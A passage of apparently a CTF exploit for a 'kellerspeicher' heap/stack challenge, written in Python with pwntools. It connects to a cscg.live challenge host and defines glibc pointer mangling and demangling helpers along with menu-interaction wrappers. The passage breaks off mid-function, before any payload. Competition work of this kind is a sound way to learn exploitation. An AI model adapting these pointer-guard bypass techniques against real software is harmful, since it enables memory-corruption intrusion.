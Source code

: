 # Exploit Code

```python
import pwn
import struct
from enum import Enum

#p = pwn.process('./main-dbg')
#p = pwn.remote('127.0.0.1', 1024, fam='ipv4')
p = pwn.remote("81a2ff6ee0881646b872c485-1024-kellerspeicher.challenge.cscg.live" ,1337, ssl=True,fam = 'ipv4')


def rol(value, bits, width=64):
    return ((value << bits) | (value >> (width - bits))) & (2**width - 1)

def ror(value, bits, width=64):
    return ((value >> bits) | (value << (width - bits))) & (2**width - 1)


def ptr_demangle(ptr_enc, cookie): 
    return ror(ptr_enc, 0x11) ^ cookie 

def ptr_mangle(ptr, cookie):
    return rol(ptr ^ cookie, 0x11)

class Keller(Enum):
    HK = 1
    NK = 2

def choose(opt: int|str|bytes):
    p.recvuntil(b':')
    if type(opt) != bytes:
        opt = f'{opt}'.encode()
    p.sendline(opt)

def new_keller(size: int, keller_type) -> Keller:
    if keller_type == Keller.HK:
        choose(1)
    elif keller_type == Keller.NK:
        choose(2)
    choose(size)
    return keller_type

def einkellern(i: int, keller_type):
    if i > 0xff:
        raise ValueError('cant store values greater than 0xff')
    if keller_type == Keller.HK:
        choose(5)
    elif keller_type == Keller.NK:
        choose(6)
    choose(hex(i)[2:])

def einkellern_bytes(b: bytes, keller_type):
    for c in b:
        einkellern(c, keller_type)

def auskellern(keller_type) -> int:
    if keller_type == Keller.HK:
        choose(7)
    elif keller_type == Keller.NK:
        choose(8)
    try:
```